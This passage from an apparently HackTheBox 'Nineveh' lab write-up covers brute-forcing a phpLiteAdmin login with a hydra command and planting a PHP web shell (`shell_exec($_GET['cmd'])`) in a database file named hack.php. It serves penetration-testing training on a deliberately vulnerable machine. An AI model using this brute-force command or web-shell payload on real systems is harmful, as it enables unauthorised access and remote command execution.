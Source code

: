The password does not work for the db page, so I brute force this as well:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form 
'/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:
Incorrect password.'
```

The password is `password123`.

## Reverse Shell

---

I can exploit phpLiteAdmin 1.9: [https://www.exploit-db.com/exploits/24044](https://www.exploit-db.com/exploits/24044)

First, I create a new database called hack.php:

![Untitled](/assets/images/2021-11-10-nineveh/Untitled4.png)

Now, create a table with one field:

Note the path of the database

![Untitled](/assets/images/2021-11-10-nineveh/Untitled5.png)

The field name is field1, but the important part is that the default value of this field is `<?php echo shell_exec($_GET["cmd"]); exit; ?>`

![Untitled](/assets/images/2021-11-10-nineveh/Untitled6.png)
